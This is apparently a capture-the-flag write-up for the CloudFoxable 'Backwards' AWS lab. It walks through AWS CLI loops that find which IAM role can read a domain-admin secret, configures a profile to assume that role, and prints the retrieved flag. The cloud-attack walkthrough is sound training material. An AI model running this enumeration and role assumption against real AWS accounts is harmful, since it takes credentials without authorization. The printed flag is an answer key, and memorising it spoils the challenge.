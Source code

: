 # CloudFoxable---Backwards
Find out who has access to DomainAdministrator-Credentials in secretsmanager and then use your cloudfoxable profile to access that role and grab the secret.
# CloudFoxable Write-up: "Backwards" Challenge

## Challenge Title
**Backwards**

## Category
AWS IAM / Secrets Manager / Enumeration

## Author
Seth Art (@sethsec)

## Challenge Description
> In this challenge, we are given an interesting secret ARN:
> 
> `arn:aws:secretsmanager:us-west-2:<account-id>:secret:DomainAdministrator-Credentials-3JoHlx`
> 
> The task is to find **who has access** to this secret, and then **assume the correct role** to retrieve it. 
> This simulates a real-world scenario where you may find a sensitive ARN during recon and need to work backwards to find accessible identities.

---

## Steps to Solve

### 1. **Start from the secret ARN**
We begin by examining who has permissions to access the secret `DomainAdministrator-Credentials`. Since we didn’t start with a user or role, this required an enumeration-first approach.

---

### 2. **List all local IAM policies**
```bash
aws iam list-policies --scope Local --profile cloudfoxable
```

We looped through each policy to look for references to the secret ARN:
```bash
for policy in $(aws iam list-policies --scope Local --query 'Policies[*].Arn' --output text); do
  version=$(aws iam get-policy --policy-arn $policy --query 'Policy.DefaultVersionId' --output text)
  match=$(aws iam get-policy-version --policy-arn $policy --version-id $version | grep 'DomainAdministrator-Credentials')
  if [ ! -z "$match" ]; then
    echo "🎯 FOUND IN POLICY: $policy"
  fi
done
```
 This revealed access was granted in the policy:
`corporate-domain-admin-password-policy`

---

### 3. **Find the role this policy is attached to**
```bash
for role in $(aws iam list-roles --query 'Roles[*].RoleName' --output text); do
  aws iam list-attached-role-policies --role-name "$role" \
    --query 'AttachedPolicies[*].PolicyArn' --output text | \
    grep -q 'corporate-domain-admin-password-policy' && echo "🔐 Attached to: $role"
done
```
 Result: `Alexander-Arnold` role has the policy.

---

### 4. **Check role trust relationship**
We ran:
```bash
aws iam get-role --role-name Alexander-Arnold
```
 It trusts: `user/ctf-starting-user`

That means we can assume this role from the profile tied to `ctf-starting-user`.

---

### 5. **Set up `cloudfoxable` profile with correct credentials**
Terraform gives you the `ctf-starting-user` access key and secret key after deployment. We added them to `~/.aws/credentials`:

```ini
[cloudfoxable]
aws_access_key_id = <your_ctf_user_access_key>
aws_secret_access_key = <your_ctf_user_secret_key>
region = us-west-2
```

Confirm identity:
```bash
aws sts get-caller-identity --profile cloudfoxable
```
 Success: Identity was `ctf-starting-user`

---

### 6. **Create `Alexander-Arnold` role profile**
Add this to `~/.aws/config`:
```ini
[profile Alexander-Arnold]
region = us-west-2
role_arn = arn:aws:iam::<account-id>:role/Alexander-Arnold
source_profile = cloudfoxable
```

---

### 7. **Retrieve the secret**
Final step:
```bash
aws secretsmanager get-secret-value \
  --secret-id arn:aws:secretsmanager:us-west-2:<account-id>:secret:DomainAdministrator-Credentials-3JoHlx \
  --query 'SecretString' \
  --output text \
  --profile Alexander-Arnold
```

✅ **Flag captured:**
```
FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}
```

---

## Key Takeaways
- Always check trust policies of IAM roles to see who can assume them.
- Even if you don’t have `sts:AssumeRole` permission, **you can assume a role if it trusts your identity**.
- This challenge mirrors real-world IAM privilege escalation paths.

---

## Tools Used
- AWS CLI
- Terraform (for setup)
- grep / jq / bash scripting
- CloudFox (used for hints and structure)

---

## Credits
Thanks to [@sethsec](https://twitter.com/sethsec) and the [Bishop Fox](https://github.com/BishopFox/cloudfoxable) team for this excellent gamified cloud hacking playground.

---

## 💡 Tips for Future Players
- Read trust policies carefully — they’re your doorways.
- Don't stop at one role. Assume as many as possible to map out the attack surface.
- Use `cloudfox role-trusts` or bash loops to automate path discovery.

Happy hacking! 🏴‍☠️

